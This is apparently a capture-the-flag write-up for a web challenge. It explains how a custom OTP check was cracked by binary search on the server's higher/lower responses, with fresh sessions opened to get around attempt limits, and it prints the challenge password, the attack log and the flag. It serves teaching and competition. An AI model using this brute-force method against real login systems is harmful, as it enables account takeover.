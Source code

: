 # Paranoid ⭐⭐⭐

[< Go back](../../README.md)

## Description

I made this cool website, but I don't trust any of those lousy package maintainers to handle my password securily.
So, I developed my own library.
I know it's security because it uses MFA.

The [paranoid/](./paranoid/) folder was provided and an URL

## Challenge

I've setup a local environment for testing. This will allow us to customize the server code into a way to helps us debug and create a brute-force tool.

I came up with [bruteforce.py](./bruteforce.py) to crack the OTP.

For the first step related to the password cracking, due to the fact there were less limitations, the process is a little bit more straight forward. Because of time constraints I rolled with the fact that @realAlphabet had already manually brute forced the password. (i.e. "MonkeyBrain")

### Cracking

The tool is a simple binary search algorithm, I implemented it recursively for the lols, it wasn' really necessary to do so, but it's been some time since I did any programming challenge like this, so I wanted to have some fun.

The tool actually handles pretty much anything that could happen gracefully, due to time limitations, or max attempt if the server blocks us, the bruteforce script just rolls back and generates a completely new guid session with the password and tries again.

```
Got GUID: /33169135-1740-4950-ae6f-94dc7cea2d70

[*] Attempting OTP: V (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 49: -1

[*] Attempting OTP: F (State: 0123456789ABCDEFGHIJKLMNOPQRSTU)
[!] Invalid OTP. Tries left: 48: 1

[*] Attempting OTP: N (State: FGHIJKLMNOPQRSTU)
[!] Invalid OTP. Tries left: 47: -1

[*] Attempting OTP: J (State: FGHIJKLM)
[!] Invalid OTP. Tries left: 46: 1

[*] Attempting OTP: L (State: JKLM)
[!] Invalid OTP. Tries left: 45: 1

[*] Attempting OTP: M (State: LM)
[!] Invalid OTP. Tries left: 44: -1

[*] Attempting OTP: LV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 43: 1

[*] Attempting OTP: Lk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 42: -1

[*] Attempting OTP: Lc (State: VWXYZabcdefghij)
[!] Invalid OTP. Tries left: 41: 1

[*] Attempting OTP: Lg (State: cdefghij)
[!] Invalid OTP. Tries left: 40: 1

[*] Attempting OTP: Li (State: ghij)
[!] Invalid OTP. Tries left: 39: -1

[*] Attempting OTP: Lh (State: gh)
[!] Invalid OTP. Tries left: 38: -1

[*] Attempting OTP: LgV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 37: 1

[*] Attempting OTP: Lgk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 36: 1

[*] Attempting OTP: Lgs (State: klmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 35: 1

[*] Attempting OTP: Lgw (State: stuvwxyz)
[!] Invalid OTP. Tries left: 34: -1

[*] Attempting OTP: Lgu (State: stuv)
[!] Invalid OTP. Tries left: 33: -1

[*] Attempting OTP: Lgt (State: st)
[!] Invalid OTP. Tries left: 32: -1

[*] Attempting OTP: LgsV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 31: 1

[*] Attempting OTP: Lgsk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 30: -1

[*] Attempting OTP: Lgsc (State: VWXYZabcdefghij)
[!] Invalid OTP. Tries left: 29: -1

[*] Attempting OTP: LgsY (State: VWXYZab)
[!] Invalid OTP. Tries left: 28: -1

[*] Attempting OTP: LgsW (State: VWX)
[!] Invalid OTP. Tries left: 27: 1

[*] Attempting OTP: LgsX (State: WX)
[!] Invalid OTP. Tries left: 26: 1

[*] Attempting OTP: LgsXV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 25: 1

[*] Attempting OTP: LgsXk (State: VWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 24: 1

[*] Attempting OTP: LgsXs (State: klmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 23: -1

[*] Attempting OTP: LgsXo (State: klmnopqr)
[!] Invalid OTP. Tries left: 22: -1

[*] Attempting OTP: LgsXm (State: klmn)
[!] Invalid OTP. Tries left: 21: 1

[*] Attempting OTP: LgsXn (State: mn)
[!] Invalid OTP. Tries left: 20: -1

[*] Attempting OTP: LgsXmV (State: 0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz)
[!] Invalid OTP. Tries left: 19: -1

[*] Attempting OTP: LgsXmF (State: 0123456789ABCDEFGHIJKLMNOPQRSTU)
[!] Invalid OTP. Tries left: 18: -1

[*] Attempting OTP: LgsXm7 (State: 0123456789ABCDE)
[!] Invalid OTP. Tries left: 17: 1

[*] Attempting OTP: LgsXmB (State: 789ABCDE)
[!] Invalid OTP. Tries left: 16: 1

[*] Attempting OTP: LgsXmD (State: BCDE)
[*] Found OTP: LgsXmD
[*] Flag: CSC{Al9ORi7hMic5_cLa22_Wa5_Co0L_aF73R_AlL}
```
